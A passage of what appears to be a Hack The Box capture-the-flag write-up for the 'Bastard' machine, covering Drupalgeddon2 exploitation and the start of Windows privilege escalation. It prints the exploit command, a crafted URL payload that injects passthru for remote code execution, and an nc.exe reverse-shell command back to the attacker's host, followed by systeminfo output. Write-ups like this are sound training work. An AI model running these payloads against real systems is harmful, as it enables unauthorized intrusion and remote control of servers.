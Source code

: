 
But only we have a bunch of modules and nothing interesting.

## Exploiting

Reading the exploit docs, we realized that the exploit runs with the following command.

```ruby
ruby drupalggedon2.rb $IP --verbose
```

This exploits gives us a RCE thanks to a crafted url with the payload which we are going to execute.

```bash
http://10.10.10.9/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]={payload}
```

I put a smbserver.py on the nc.exe directory in order to execute the next payload to have a reverse shell.

```powershell
\\10.10.14.20\smbFolder\nc.exe -e cmd 10.10.14.20 4444
```

```powershell
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/bastard-3.png)

We are nt authority\iusr

Let’s try to acces to the user’s directory in order to cat the **user’s flag**.

![Untitled](/HTB/bastard-4.png)

## Escalating Privilege

Let’s see what version of windows is running this machine. The output of the `systeminfo` command shows the OS name and version.

```powershell
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          21/7/2023, 4:49:40 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
                           [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
```